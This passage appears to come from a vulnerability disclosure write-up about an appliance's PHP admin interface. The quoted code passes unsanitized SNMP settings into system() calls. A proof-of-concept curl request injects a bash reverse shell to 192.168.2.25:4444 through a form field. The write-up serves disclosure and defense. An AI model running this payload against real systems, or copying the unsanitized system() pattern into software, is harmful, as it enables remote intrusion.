{
	$ret = SnmpUtils::SetCommunityName($arr1['SNMP']['Community']);

	if("0" == $arr1['SNMP']['EnableIPRestriction'])
	{
		$ret = SnmpUtils::SetFirewall("0", "0");
	}
	else
	{
		$ret = SnmpUtils::SetFirewall($arr1['SNMP']['AllowGroupIP'], $arr1['SNMP']['AllowGroupNetmask']);
	}
}
?>
{% endhighlight %}

SnmpUtils defines two functions (SetCommunityName, SetFirewall) that calls directly ```/usr/tmcss/bin/ServWebExec``` with unsanitized inputs
as ```snmpsetcomm``` and ```snmpsetfw``` parameters, respectively.

**/var/www/AdminUI/php/inc/SnmpUtils.php [line 38]**

{% highlight php %}
<?php
static function SetCommunityName($CommunityName) {
	$command="/usr/tmcss/bin/ServWebExec --snmpsetcomm ".$CommunityName;
	system($command, $retval);
	return $retval;
}
?>
{% endhighlight %}

**/var/www/AdminUI/php/inc/SnmpUtils.php [line 44]**

{% highlight php %}
<?php
static function SetFirewall($IP, $Netmask) {
	$command="/usr/tmcss/bin/ServWebExec --snmpsetfw ".$IP." ".$Netmask;
	system($command, $retval);
	return $retval;
}
?>
{% endhighlight %}

#### Building a PoC

The different vulnerabilities were easily proven with curl, such as by using this command where get a reverse shell using interactive bash:

<pre style="background-color:black;width: auto; height: auto; word-wrap: break-word; white-space: pre-wrap; overflow:auto; overflow-y: hidden; color:white;font-family:'monospace';">
$ curl 'https://127.0.0.1:8443/php/admin_notification.php' -H 'Cookie: 590848d208960aa9=q3fk366otcapsp7vur00tp0to3' -H 'Origin: https://127.0.0.1:8443' -H 'Accept-Encoding: gzip, deflate, br' -H 'Content-Type: application/x-www-form-urlencoded'  -H 'Referer: https://127.0.0.1:8443/php/admin_notification.php?sid=590848d208960aa9' -H 'Connection: keep-alive' --data 'EnableSNMP=on&Community=hello&submit=Save&pubkey=snip&sid=590848d208960aa9&spare_EnableSNMP=1&spare_Community=test;bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.2.25%2F4444%200%3E%261;&spare_EnableIPRestriction=0&spare_AllowGroupIP=&spare_AllowGroupNetmask=' --compressed --insecure --http1.0
</pre>
